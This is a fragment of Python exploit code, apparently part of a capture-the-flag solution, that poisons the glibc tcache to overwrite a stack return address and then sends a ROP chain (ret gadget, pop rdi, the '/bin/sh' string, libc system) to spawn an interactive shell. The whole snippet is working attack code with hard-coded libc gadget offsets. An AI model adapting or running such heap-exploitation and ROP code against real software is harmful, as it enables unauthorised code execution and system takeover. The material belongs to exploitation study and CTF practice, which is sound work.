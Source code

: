 ```python
    # step7: put ret_addr to tcache_perthread_struct
    ret_addr = stack_addr - 0x130
    lg("ret", ret_addr)
    fake_tcache = p64(ret_addr-8)*4 # chunk needs to be aligned to 0x10
    add(0xa7, fake_tcache) #6

    # step8: happy rop~
    libc.address = libc_base
    ret = libc_base + 0x000000000002882f
    prdi = libc_base + 0x000000000010f75b
    binsh = libc_base + 0x00000000001cb42f
    rop = p64(0) #rbp
    rop += p64(ret) # $rsp needs to be aligned to 0x10
    rop += p64(prdi) + p64(binsh)
    rop += p64(libc.symbols["system"])
    add(0xc7, rop) #7
    bye()

    p.interactive()
```

